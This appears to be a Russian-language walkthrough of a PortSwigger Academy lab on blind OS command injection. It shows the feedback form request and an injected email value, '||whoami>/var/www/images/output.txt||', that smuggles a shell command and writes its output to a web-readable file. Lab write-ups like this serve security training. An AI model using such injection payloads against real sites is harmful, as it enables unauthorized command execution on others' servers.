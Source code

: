 Веб ресурс имеет уязвимость в поле отправки обратной связи. Зайдем в него и посмотрим, какой запрос выполняется при отравке формы обратной связи
```
POST /feedback/submit
...
csrf=GwySmnt57CrVics3M4lDx3qhfFLk7nYl&name=1&email=2%402&subject=3&message=4
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/4.%20OS%20command%20injection/3.%20Blind%20OS%20command%20injection%20with%20output%20redirection/pics%20for%20walktrough/3.png)

Ищем уязвимый параметр в запросе, и им оказывается параметр `email`. По заданию известно, что существует путь `/var/www/images/`, где и расположены изображения товаров интернет - магазина. Туда и разместим результат введенной команды. И не забываем про URL-кодировку!
```
2@2||whoami>/var/www/images/output.txt||
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/4.%20OS%20command%20injection/3.%20Blind%20OS%20command%20injection%20with%20output%20redirection/pics%20for%20walktrough/2.png)
Проверим, появился ли файл
```
GET /image?filename=output.txt
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/4.%20OS%20command%20injection/3.%20Blind%20OS%20command%20injection%20with%20output%20redirection/pics%20for%20walktrough/4.png)
